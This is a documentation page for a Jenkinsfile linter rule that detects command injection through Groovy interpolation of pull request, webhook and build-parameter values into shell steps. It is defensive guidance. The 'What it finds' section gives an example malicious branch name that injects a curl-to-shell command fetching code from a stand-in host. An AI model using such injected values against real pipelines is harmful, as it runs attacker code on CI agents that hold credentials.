

repository: jenkinsci/jenkinsfilelint · page: rules/script-injection/index.html · generator: mkdocs · copyright: Jenkins logo from the Jenkins artwork, CC BY-SA 3.0.

# script-injection

A value from outside the pipeline, such as a pull request title or a build
parameter, is interpolated by Groovy into the script of a `sh`, `bat`,
`powershell` or `pwsh` step, or into a command line that Docker Pipeline
runs in a shell.

| Severity | Confidence | Persona |
|---|---|---|
| high: pull requests, webhooks; medium: build parameters | high | regular |

## What it finds

```groovy
sh "git checkout ${env.CHANGE_BRANCH}"   // CHANGE_BRANCH is reported
```

The double quotes make this a Groovy string, so Groovy writes the branch
name into the script before the shell sees it. Whoever opens the pull request
chooses that name, and Git allows a branch named `x;curl${IFS}evil.sh|sh`.
The shell runs it.

It finds the value however it gets there:

- `$X`, `${X}`, `${env.X}`, `${env['X']}`, `${params.X}`
- `${X.trim()}`, `${X.toLowerCase()}`, `${X - 'origin/'}`, `${X ?: 'none'}`,
  and other expressions that keep the text
- `sh 'echo ' + X`, joined with `+`
- `def branch = env.CHANGE_BRANCH`, and later `sh "git push origin ${branch}"`
- an environment variable set from it, with `environment { T = "${env.CHANGE_TITLE}" }`,
  `withEnv(["T=${env.CHANGE_TITLE}"])` or `env.T = env.CHANGE_TITLE`, and
  later interpolated as `${T}` or `${env.T}`
- `sh script: "...", returnStdout: true`, and `"""..."""` strings

The values it knows, and who chooses them:

| Value | Set by | Chosen by |
|---|---|---|
| `CHANGE_TITLE`, `CHANGE_BRANCH`, `CHANGE_AUTHOR_DISPLAY_NAME` | multibranch projects, from any branch source | anyone who opens a pull request |
| `ghprbPullTitle`, `ghprbPullDescription`, `ghprbSourceBranch`, `ghprbCommentBody`, `ghprbActualCommitAuthor`, ... | GitHub Pull Request Builder | anyone who opens a pull request or comments on one |
| `gitlabMergeRequestTitle`, `gitlabMergeRequestDescription`, `gitlabSourceBranch`, `gitlabBranch`, `gitlabUserName`, `gitlabTriggerPhrase` | GitLab plugin | anyone who opens a merge request or comments on one |
| `GERRIT_CHANGE_SUBJECT`, `GERRIT_TOPIC`, `GERRIT_HASHTAGS`, `GERRIT_CHANGE_OWNER_NAME`, `GERRIT_EVENT_ACCOUNT_NAME`, ... | Gerrit Trigger | anyone who can upload a change or comment on one |
| The variables of `GenericTrigger(genericVariables: ..., genericRequestVariables: ..., genericHeaderVariables: ...)`, and the `name_...` variables it makes from JSON objects and lists | Generic Webhook Trigger | whoever sends the webhook |
| `params.X`, and `X` or `env.X` for a parameter the file declares | build parameters | anyone who can start the build |

## Why it matters

The [Jenkins documentation](https://www.jenkins.io/doc/book/pipeline/jenkinsfile/#injection-via-interpolation)
warns about exactly this: Groovy interpolation of untrusted values into a
`sh` step is command injection.

- **A pull request does not need to change the Jenkinsfile.** For a pull
  request from a fork, multibranch projects run the Jenkinsfile of the
  target branch, which the attacker cannot change. Its title and branch
  name still come from the attacker. Injection runs their commands in
  steps the target branch trusts, often with credentials bound, or on an
  agent the pull request's own code never reaches.
- **A webhook token in the Jenkinsfile is not a secret.** Anyone who can
  read the file can call the Generic Webhook Trigger with any payload.
- **Build parameters reach further than the job's configuration.** Anyone
  with permission to start the build chooses them, and so can scripts and
  upstream jobs that trigger it.

Quoting in the script does not help: in `sh "echo '${env.CHANGE_TITLE}'"`, a
title with a `'` in it ends the quotes.
